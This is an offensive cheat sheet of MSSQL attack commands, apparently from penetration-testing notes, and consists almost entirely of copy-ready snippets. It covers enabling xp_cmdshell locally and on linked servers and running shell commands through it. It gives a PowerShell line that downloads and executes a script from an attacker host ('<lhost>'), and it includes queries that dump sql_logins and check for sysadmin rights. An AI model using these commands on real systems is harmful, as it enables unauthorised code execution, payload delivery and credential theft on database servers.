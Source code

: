 ### Enable xp_cmdshell SQL Server configuration
```
mssql> enable_xp_cmdshell
```

### Execute shell command
```
mssql> EXEC xp_cmdshell <command>
```

### Download string and invoke expression
```
mssql> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<lhost>/<file>.txt") | powershell -noprofile'
```

### Enable xp_cmdshell on linked servers
```
mssql> EXEC('sp_configure ''show advanced options'',1; reconfigure;') AT [<fdqnRhost>]
mssql> EXEC('sp_configure ''xp_cmdshell'',1; reconfigure;') AT [<fdqnRhost>]
mssql> SELECT * FROM OPENQUERY("<fqdnRhost>", 'select * from sys.configuration where name = ''xp_cmdshell''')
```

### Get hostname
```
SELECT HOST_NAME();
```

### Get tables
```
SELECT name FROM <database>..sysobjects;
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

### Get content of table
```
SELECT * FROM master..sql_logins;
```

### Get permissions
```
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('serveradmin');
```

